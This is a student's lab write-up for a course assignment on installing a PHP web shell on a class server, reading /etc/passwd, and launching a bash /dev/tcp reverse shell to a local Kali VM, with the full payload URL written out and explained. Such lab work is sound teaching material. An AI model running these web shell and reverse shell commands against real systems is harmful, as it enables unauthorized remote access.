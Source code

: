 # Reverse shell assignment

Author: James Commons

Date: 10/30/2024

## Part 1: installing a PHP web shell

a. I used the PHP web shell provided on the assignment page. The web shell is written so that
it can take as an input a URL parameter and run it as a command locally on the server the file
is installed on. This means that the only thing I need to do to get the server to run a command
is give the command I want in the URL. For `whoami`, I typed 
`http://danger.jeffondich.com/uploadedimages/commonsj-webshell.php?command=whoami` into my browser's
search bar, and it responded with the plain text `www-data`. On a more fundamental level, this works
because when a user tries to visit a page written in PHP, arbitrary scripting code embedded in the
page is run locally on the server before HTML is sent to the user.

b. The `<pre>` tags are necessary for the browser to display the command output as plain text rather
than formatted text. If the tags were not there, line feeds would be ignored, the font would not be
monospace, and in general, it would be hard to interpret text meant to be read from a terminal.

## Part 2: looking around

a. `/var/www/danger.jeffondich.com`. This can be found using the command `pwd`.

b. 
The full list of users is given in the file /etc/passwd, which I 
was able to list out by running `cat \etc\*passwd` (not entirely sure why the * is necessary here,
so shout out Kendra). Here is the list:

root,
daemon,
bin,
sys,
sync,
games,
man,
lp,
mail,
news,
uucp,
proxy,
www-data,
backup,
list,
irc,
gnats,
nobody,
systemd-network,
systemd-resolve,
messagebus,
systemd-timesync,
syslog,
_apt,
tss,
uuidd,
tcpdump,
usbmux,
sshd,
pollinate,
landscape,
fwupd-refresh,
jeff,
postgres,
bullwinkle

c. Any user can read from `/etc/passwd`, but only root can modify the file. You can
verify this by listing the permissions in the `/etc/` directory. The file contains 
a list of every user and some basic preferences like the location of the home directory
and the path to the user's preferred shell.

d. `/etc/shadow` can only by read by root, and it contains hashed and salted passwords
for each user. It also contains information about things like password expiration dates 
([source](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)).

e. 
```
/   \          /   \
\_   \        /  __/
 _\   \      /  /__
 \___  \____/   __/
     \_       _/
       | @ @  \_
       |
     _/     /\
    /o)  (o/\ \_
    \_____/ /
      \____/
```
This moose was found in a file in the /home/jeff/ directory. I also found a file called 
youfoundme.txt that you can read the contents of.

I found this frog at /var/www/danger.jeffondich.com/secrets/kindasecret.txt
```
 _   _
           (.)_(.)
        _ (   _   ) _
       / \/`-----'\/ \
     __\ ( (     ) ) /__
     )   /\ \._./ /\   (
      )_/ /|\   /|\ \_(
```

I found these birds at /var/www/danger.jeffondich.com/youwontfindthiswithgobuster/secret.txt
```
 ___     ___
  (o o)   (o o)
 (  V  ) (  V  ) 
/--m-m- /--m-m-
```

"Aw, a little period couldn't hide me? So sad." Yup (found at /opt/.even-more-secrets.txt).

Finally, I found a PHP file called my_ip.php, which when I visit it at 
`http://danger.jeffondich.com/my_ip.php`, gives me the IP address I used to contact the 
server. In this case, it gave me one of Carleton's gateway IP addresses.

## Part 3: setup for part 4

Completed.

## Part 4: launching a reverse shell

a. To find the IP address of the target (my Kali VM), I ran the command `ifconfig` on the VM. It 
told me that the IP address is `192.168.64.8`. If I were an attacker without access
to the machine yet, I would still presumably know the IP address of the target, most likely
because it is associated with some domain that I can look up. Since we are using a web shell, 
the target is likely a web server, meaning that the IP address is not meant to be kept secret.

b. My computer has the IP address of `192.168.64.1` as far as my Kali VM is concerned. However,
on Carleton's network, my IP address is `10.133.23.56` at the moment. The reason for the 
discrepancy is that my computer is acting as a sort of gateway to Carleton's larger network.
My computer is hosting a local network that my VM is connected to. My computer forwards
requests made by my VM to one of Carleton's gateway devices. For the reverse shell, I should
use `192.168.64.1`, since the other IP address is not known to my VM.

c. I picked the port 5678.

d. This is the template URL given on the assignement page: 
`http://KALI_IP/YOUR_WEBSHELL.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT%200%3E%261%22`.
I will modify it to be 
`http://192.168.64.8/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/5678%200%3E%261%22`.

e. Yes! It all works. To find out information about the system I have just hacked into,
I can run `uname -a` in my reverse shell (netcat input). When I do this, I get 
`Linux jello 6.6.15-arm64 #1 SMP Kali 6.6.15-2kali1 (2024-05-17) aarch64 GNU/Linux`, which
confirms that the target machine in running Kali linux compiled for arm64 machines.

f. Those codes are URL escape sequences. For example, I know off the top of my head that `%20` is 
the code for the space character. Using a URL decoder, I can rewrite the URL used in part d as
follows: `http://192.168.64.8/webshell.php?command=bash -c "bash -i >& /dev/tcp/192.168.64.1/5678 0>&1"`

g. To understand how this reverse shell works, we need to understand the command I ran on the target
machine using the web shell. The first command is `bash -c`, followed by an argument. This just invokes
the bash shell to run the command given in the argument. It is a way of enforcing that our command is
actually interpreted as a bash command. It is necessary because we are ultimately trying to run this
code through a PHP script, and I assume this is the workaround you have to do get bash to run. I tried
it without this first command (just running the stuff in quotes), and it didn't work.

The next thing that runs is the command encased in quotes: `bash -i >& /dev/tcp/192.168.64.1/5678 0>&1`.
This invokes the bash shell again, this time with the option `-i`, which sets everything up for an 
interactive session. Finally, the real magic happens when we redirect stdout and stderr to the "file"
`/dev/tcp/192.168.64.1/5678`. What this actually does is it opens a tcp connection to `192.168.64.1` on
port `5678`. The final piece of this command is redirecting stdin to stdout. This lets us input commands
into the reverse shell from the attacking machine.
